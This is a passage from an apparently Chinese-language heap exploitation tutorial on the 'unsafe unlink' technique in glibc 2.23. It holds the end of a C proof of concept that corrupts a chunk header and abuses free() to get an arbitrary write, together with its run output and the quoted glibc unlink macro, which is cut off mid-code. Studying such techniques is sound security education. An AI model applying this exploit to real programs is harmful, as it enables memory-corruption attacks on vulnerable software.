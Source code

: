 ```c
    chunk1_hdr[1] &= ~1;

    // deal with tcache
    // int *a[10];
    // int i;
    // for (i = 0; i < 7; i++) {
    //   a[i] = malloc(0x80);
    // }
    // for (i = 0; i < 7; i++) {
    //   free(a[i]);
    // }
    free(chunk1_ptr);

    char victim_string[9];
    strcpy(victim_string, "AAAAAAAA");
    chunk0_ptr[3] = (uint64_t) victim_string;
    fprintf(stderr, "Original value: %s\n", victim_string);

    chunk0_ptr[0] = 0x4242424242424242LL;
    fprintf(stderr, "New Value: %s\n", victim_string);
}
```

```text
$ gcc -g unsafe_unlink.c
$ ./a.out
The global chunk0_ptr is at 0x601070, pointing to 0x721010
The victim chunk we are going to corrupt is at 0x7210a0

Fake chunk fd: 0x601058
Fake chunk bk: 0x601060

Original value: AAAAAAAA
New Value: BBBBBBBB
```

这个程序展示了怎样利用 free 改写全局指针 chunk0_ptr 达到任意内存写的目的，即 unsafe unlink。该技术最常见的利用场景是我们有一个可以溢出漏洞和一个全局指针。

Ubuntu16.04 使用 libc-2.23，其中 unlink 实现的代码如下，其中有一些对前后堆块的检查，也是我们需要绕过的：

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    FD = P->fd;								      \
    BK = P->bk;								      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {								      \
        FD->bk = BK;							      \
        BK->fd = FD;							      \
        if (!in_smallbin_range (P->size)				      \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {		      \
	    if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
		|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
	      malloc_printerr (check_action,				      \
			       "corrupted double-linked list (not small)",    \
			       P, AV);					      \
            if (FD->fd_nextsize == NULL) {				      \
                if (P->fd_nextsize == P)				      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;		      \
                else {							      \
                    FD->fd_nextsize = P->fd_nextsize;			      \
                    FD->bk_nextsize = P->bk_nextsize;			      \
                    P->fd_nextsize->bk_nextsize = FD;			      \
                    P->bk_nextsize->fd_nextsize = FD;			      \
```